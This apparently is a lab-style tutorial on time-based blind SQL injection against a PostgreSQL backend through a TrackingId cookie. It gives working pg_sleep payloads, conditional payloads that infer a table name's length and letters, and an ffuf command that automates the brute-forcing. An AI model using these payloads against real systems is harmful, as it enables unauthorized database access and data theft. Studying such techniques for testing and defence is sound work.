 <h1>Time-Based SQL Injection - Concatenated Conditional Time Delay</h1>


<h2>Causing A Time Delay</h2>

Payload - Cookie: TrackingId='||pg_sleep(10)--

<img width="1914" height="696" alt="causing-a-time-delay-concatentation" src="https://github.com/user-attachments/assets/921d55bf-f097-40a8-b91f-3d669411d86c" />


<h2>Finding A Table_Name</h2>

To infer a table_name from the database, we can use conditional time delays and the substring() method to infer each letter of a table_name. If the condition is true, the server will delay 5 seconds. If the condition is false, the server will not delay. Examine the payload and images, below.

Payload - Cookie: TrackingId='||(select+case+when+(select+substring(table_name,1,1)+from+information_schema.tables+limit+1)='u'+then+pg_sleep(5)+else+pg_sleep(0)+end)||'

<mark>False Condition</mark>

<img width="1907" height="694" alt="false-condition-find-substring-table_name" src="https://github.com/user-attachments/assets/a79e10dc-9580-42b2-8b1c-121d42418f22" />


<mark>True Condition</mark>

<img width="1910" height="693" alt="true-condition-find-substring-table_name" src="https://github.com/user-attachments/assets/868abbd3-1df0-42f8-aa03-7254ce5761a7" />

<h2>Finding Length() Of Table_Name</h2>

To infer the length of a table_name, we can use conditional time delays and the length() method to infer the table_name length. If the condition is true, the server will delay 5 seconds. If the condition is false, the server will not delay. Examine the payload and images, below.

Payload - Cookie: TrackingId='||(select+case+when+length((select+table_name+from+information_schema.tables+limit+1))=5+then+pg_sleep(5)+else+pg_sleep(0)+end)||'

<mark>False Condition</mark>

<img width="1907" height="698" alt="false-condition-find-length-of-table_name" src="https://github.com/user-attachments/assets/79d38683-4227-4fd0-88f2-4675180f6001" />


<mark>True Condition</mark>

<img width="1910" height="690" alt="true-condition-find-length-of-table_name" src="https://github.com/user-attachments/assets/bacc23f8-c7c4-4374-b744-e0f02cbd7a38" />

<h2>FFUF To Find Table_Name</h2>

Now that we know the length of the table_name, we can use FFUF with Multiple Variables to infer the exact table_name

Payload - Cookie: TrackingId='||(select+case+when+(select+substring(table_name,NUMBERZ,1)+from+information_schema.tables+limit+1)='CHARACTERZ'+then+pg_sleep(5)+else+pg_sleep(0)+end)||'

ffuf -u 'https://example.com' -H "Cookie: TrackingId='||(select+case+when+(select+substring(table_name,NUMBERZ,1)+from+information_schema.tables+limit+1)='CHARACTERZ'+then+pg_sleep(5)+else+pg_sleep(0)+end)||'" -w numbers.txt:NUMBERZ -w characters.txt:CHARACTERZ -mt '>2000'

<mark>The above FFUF command will filter for requests that are delayed for more than 2000 milliseconds (2 seconds)</mark>
